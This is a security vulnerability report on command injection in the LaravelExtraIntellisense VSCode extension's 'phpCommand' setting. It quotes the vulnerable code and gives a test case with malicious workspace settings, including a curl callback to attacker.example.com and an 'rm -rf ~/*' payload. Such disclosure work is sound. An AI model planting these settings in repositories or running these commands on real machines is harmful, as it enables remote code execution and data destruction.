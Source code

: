 ### Vulnerability List:

#### 1. Command Injection in `phpCommand` setting

- **Description:**
    1. The `LaravelExtraIntellisense` extension allows users to configure the `phpCommand` setting in VSCode settings. This setting defines the command used to execute PHP code for Laravel project analysis and autocompletion features.
    2. The extension uses `child_process.exec` in `src/helpers.ts` to execute this command, replacing the `{code}` placeholder with dynamically generated PHP code.
    3. The extension does not sanitize the `phpCommand` setting provided by the user.
    4. A threat actor can craft a malicious `phpCommand` within a workspace's settings (e.g., `.vscode/settings.json`) that injects arbitrary shell commands.
    5. When a victim opens a workspace containing this malicious setting and the extension attempts to execute a PHP command (which happens automatically in the background), the injected shell commands are executed.

- **Impact:**
    - Remote Code Execution (RCE).
    - A successful command injection allows the threat actor to execute arbitrary commands on the victim's machine with the same privileges as the VSCode process.
    - This can lead to complete system compromise, data theft, malware installation, or other malicious activities.

- **Vulnerability Rank:** critical

- **Currently Implemented Mitigations:**
    - None. The extension relies on the user-provided `phpCommand` setting without any input sanitization or validation. The "Security Note" in `README.md` warns users about potential issues but does not prevent command injection.

- **Missing Mitigations:**
    - Input sanitization and validation of the `phpCommand` setting.
    - Restricting the allowed characters or commands in the `phpCommand` setting.
    - Using safer methods for executing PHP code, such as programmatically invoking PHP functions within a controlled environment instead of relying on shell execution of arbitrary commands.
    - Display a warning message to the user if the `phpCommand` setting is modified outside of the extension's control (e.g., by workspace settings) and prompt for confirmation.

- **Preconditions:**
    - The victim must have the `LaravelExtraIntellisense` extension installed in VSCode.
    - The victim must open a workspace or project that contains a malicious `.vscode/settings.json` file or has a workspace setting configured to a malicious `phpCommand`.
    - The threat actor needs to convince the victim to open a malicious repository or project.

- **Source Code Analysis:**
    - File: `src/helpers.ts`
        ```typescript
        static async runPhp(code: string, description: string|null = null) : Promise<string> {
            code = code.replace(/\"/g, "\\\"");
            if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
                code = code.replace(/\$/g, "\\$");
                code = code.replace(/\\\\'/g, '\\\\\\\\\'');
                code = code.replace(/\\\\"/g, '\\\\\\\\\"');
            }
            let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
            let command = commandTemplate.replace("{code}", code);
            let out = new Promise<string>(function (resolve, error) {
                if (description != null) {
                    Helpers.outputChannel?.info("Laravel Extra Intellisense command started: " + description);
                }

                cp.exec(command, // Vulnerable function: child_process.exec
                    { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
                    function (err, stdout, stderr) {
                        if (err == null) {
                            if (description != null) {
                                Helpers.outputChannel?.info("Laravel Extra Intellisense Resolved: " + description);
                            }
                            resolve(stdout);
                        } else {
                            const errorOutput = stderr.length > 0 ? stderr : stdout;
                            Helpers.outputChannel?.error("Laravel Extra Intellisense Error:\n " + (description ?? '') + '\n\n' + errorOutput);
                            Helpers.showErrorPopup();
                            error(errorOutput);
                        }
                    }
                );
            });
            return out;
        }
        ```
        - The `runPhp` function in `helpers.ts` is responsible for executing PHP code.
        - It retrieves the `phpCommand` setting from the VSCode configuration.
        - It replaces the `{code}` placeholder in the `phpCommand` with the `$code` argument.
        - **Vulnerability:** The `command` variable, which is constructed using the user-provided `phpCommand` setting and the `$code`, is directly passed to `cp.exec()`. This allows for command injection if the user provides a malicious `phpCommand`.
        - The code performs minimal escaping (escaping double quotes and backslashes for some platforms), which is insufficient to prevent command injection.

- **Security Test Case:**
    1. **Setup:**
        - Create a new directory for a malicious Laravel project (or any directory that can be opened in VSCode).
        - Inside this directory, create a `.vscode` folder.
        - Inside the `.vscode` folder, create a `settings.json` file.
        - Add the following JSON content to `settings.json` to inject a malicious command:
            ```json
            {
                "LaravelExtraIntellisense.phpCommand": "bash -c 'touch /tmp/pwned_by_laravel_intellisense'"
            }
            ```
        - Alternatively, to demonstrate network access, use:
            ```json
            {
                "LaravelExtraIntellisense.phpCommand": "bash -c 'curl https://attacker.example.com/pwned'"
            }
            ```
        - Or to execute more complex commands:
            ```json
            {
                "LaravelExtraIntellisense.phpCommand": "bash -c 'rm -rf ~/*'"
            }
            ```
            **Warning: Be extremely cautious when testing destructive commands. Test in a safe, isolated environment like a virtual machine.**

    2. **Execution:**
        - Open the directory created in step 1 in VSCode.
        - Ensure the `LaravelExtraIntellisense` extension is activated for this workspace. (It should activate automatically for PHP/Laravel projects).
        - The extension will attempt to run PHP commands in the background to gather autocompletion data. This should trigger the malicious command injected in `phpCommand`.

    3. **Verification:**
        - **For `touch /tmp/pwned_by_laravel_intellisense`:** Check if the file `/tmp/pwned_by_laravel_intellisense` has been created in the `/tmp` directory.
        - **For `curl https://attacker.example.com/pwned`:** Monitor your attacker's web server logs to see if a request to `/pwned` has been received from the victim's machine.
        - **For `rm -rf ~/*` (USE WITH EXTREME CAUTION IN A SAFE VM):** Verify if files in the home directory have been deleted (if you dared to run this, which is strongly discouraged outside of a controlled, isolated test environment).

    4. **Expected Result:**
        - If the test is successful, the injected command will be executed on the victim's system, demonstrating the command injection vulnerability. The file `/tmp/pwned_by_laravel_intellisense` will be created, the attacker's server will receive a request, or (in the destructive example) files may be deleted. This confirms that arbitrary commands can be executed through the `phpCommand` setting.
